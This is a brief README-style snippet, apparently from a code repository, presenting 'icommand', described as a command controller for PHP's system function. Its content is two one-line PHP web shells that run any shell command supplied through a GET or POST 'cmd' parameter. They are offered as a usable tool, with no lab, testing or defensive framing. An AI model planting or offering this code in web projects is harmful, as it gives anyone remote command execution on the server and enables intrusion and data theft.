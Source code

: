 ### icommand - command controller for PHP system function
- - -   
icommand works for **POST** and **GET** requests:  
> `<?php system($_GET['cmd']); ?>`  
> `<?php system($_POST['cmd']); ?>`
